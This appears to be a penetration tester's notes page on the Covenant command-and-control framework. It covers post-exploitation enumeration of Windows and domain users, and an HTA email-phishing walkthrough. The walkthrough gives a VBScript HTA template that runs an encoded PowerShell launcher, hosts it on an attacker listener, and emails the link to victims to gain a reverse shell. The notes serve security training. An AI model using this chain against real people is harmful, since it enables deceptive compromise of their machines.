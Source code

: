 # Covenant

## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}
